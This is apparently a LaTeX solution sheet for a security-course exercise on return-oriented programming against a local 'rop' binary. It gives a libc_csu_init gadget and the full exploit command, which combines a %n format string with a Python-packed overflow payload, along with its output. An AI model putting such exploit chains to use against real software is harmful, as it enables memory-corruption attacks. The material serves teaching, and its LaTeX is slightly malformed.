 \documentclass[a4paper,11pt]{article}
\newenvironment{solution}%
{\par{\noindent\small\textit{Solution:}}\vspace{-12pt}\begin{framed}}%
{\end{framed}\par}
\begin{document}
\begin{itemize}
\begin{solution}
\end{solution}\fi
\item When you chain \texttt{printf}, \texttt{print\_test} and \texttt{exit}, what does the stack
  layout look like after you overflow the vulnerable buffer in \texttt{cpybuf}
  but before you return from \texttt{cpybuf}?
\ifsolution\begin{solution}
\newpage
The epilogue of \_\_libc\_csu\_init() function:
\begin{lstlisting}
 8048679: pop    %esi
 804867a: pop    %edi
 804867b: pop    %ebp
 804867c: ret
 \end{lstlisting} 

\end{solution}\fi
\item What is the final command that you used to successfully run this exploit?
\ifsolution\begin{solution}
\begin{lstlisting}
% export FMT="%0256x%n"
% ./rop "`python2.7 -c 'from struct import pack; print("A"*24 + pack("I", 0x8048390) + pack("I", 0x8048679) + pack("I", 0xbfffffeb) + pack("I", 0x08049980) + pack("I", 0x08049980) + pack("I", 0x0804850b) + pack("I", 0xb7e24a60) + pack("I", 0x08049980))'`"

Enter your help string:test

Your help string is test
0000000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000
000000000000000008049980804850b
Value of test is 256
\end{lstlisting}
\end{solution}\fi
\end{itemize}
\end{document}
